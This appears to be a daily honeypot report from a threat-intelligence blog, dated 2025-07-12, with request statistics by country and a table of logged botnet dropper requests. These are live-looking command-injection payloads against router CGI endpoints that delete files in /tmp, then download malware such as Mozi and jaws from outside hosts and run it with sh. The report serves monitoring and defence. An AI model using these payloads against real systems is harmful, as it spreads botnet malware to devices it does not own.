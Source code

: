 ```yaml
---
title: "Report: 2025-07-12 "
date: 2025-07-12
desciption: "Report: 2025-07-12" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-12 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 12 stage 1 IP address(es), linked to 6 dropper URL(s).  

There are 12 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1241 requests were recorded during the day, originating from 12 different countries, with a peak of 225 requests coming from DE.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| JP               | Germany            |
| DE               | Germany            |
| BR               | Germany            |
| BR               | Germany            |
| DE               | Germany            |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                                                                           |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.222.219.91    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 47.100.64.195   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 117.72.66.27    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 36.255.4.8      | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                             |
| 223.155.21.37   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                         |
| 87.121.84.34    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://141.11.62.222/x/tplink+-O-|sh) HTTP/1.1                                                                                                                                                                                                        |
| 45.115.89.178   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.115.89.178:59093/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                      |
| 118.194.249.197 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 8.219.135.88    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 36.156.102.59   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 45.135.194.11   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%24%28killall%20-9%20mipsel%20mpsl%3B%28wget%20-O-%20http%3A%2F%2F169.255.72.169%2Frondo.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F169.255.72.169%2Frondo.sh%7C%7Ccurl%20http%3A%2F%2F169.255.72.169%2Frondo.sh%29%20%7C%20sh%20-s%20tplink%3B%29 HTTP/1.1 |
| 117.72.211.135  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                       |
|----:|----------------------:|:------------------------------------------------------------------------------|
| 124 |                     1 | GET /shell.aspx HTTP/1.1                                                      |
| 223 |                     1 | GET /laravel/vendor/phpunit/phpunit/phpunit.xsd HTTP/1.1                      |
| 224 |                     1 | GET /public/vendor/phpunit/phpunit/phpunit.xsd HTTP/1.1                       |
| 225 |                     1 | GET /core/vendor/phpunit/phpunit/phpunit.xsd HTTP/1.1                         |
| 226 |                     1 | GET /vendor/phpunit/phpunit/phpunit.xsd HTTP/1.1                              |
| 420 |                     1 | GET /Nmap/folder/check1752313936 HTTP/1.1                                     |
| 425 |                     1 | GET /NmapUpperCheck1752313936 HTTP/1.1                                        |
| 433 |                     1 | GET /OEXp HTTP/1.1                                                            |
| 436 |                     1 | GET /nmaplowercheck1752313936 HTTP/1.1                                        |
| 474 |                     1 | GET /rs/application-about HTTP/1.1                                            |
| 475 |                     1 | GET /json/login_session HTTP/1.1                                              |
| 476 |                     1 | GET /photo/webapi/query.php?api=SYNO.API.Info&method=query&version=1 HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   225 | DE                 |
|  1 |                   179 | US                 |
|  2 |                   167 | CN                 |
|  3 |                   150 | GB                 |
|  4 |                    86 | FR                 |
|  5 |                    83 | RU                 |
|  6 |                    56 | HK                 |
|  7 |                    55 | SG                 |
|  8 |                    42 | PL                 |
|  9 |                    34 | KR                 |
| 10 |                    30 | NL                 |
| 11 |                    28 | ZA                 |
| 12 |                    16 | BG                 |
| 13 |                    12 | GH                 |
| 14 |                    11 | SC                 |
| 15 |                     8 | MU                 |
| 16 |                     8 | BR                 |
| 17 |                     7 | UA                 |
| 18 |                     5 | BE                 |
| 19 |                     5 | JP                 |
| 20 |                     4 | AO                 |
| 21 |                     4 | SE                 |
| 22 |                     4 | IN                 |
| 23 |                     3 | KZ                 |
| 24 |                     2 | AU                 |
| 25 |                     2 | AE                 |
| 26 |                     2 | LV                 |
| 27 |                     2 | LA                 |
| 28 |                     2 | IL                 |
| 29 |                     2 | ES                 |
| 30 |                     2 | IE                 |
| 31 |                     1 | NG                 |
| 32 |                     1 | AR                 |
| 33 |                     1 | TH                 |
| 34 |                     1 | EE                 |
| 35 |                     1 | MK                 |
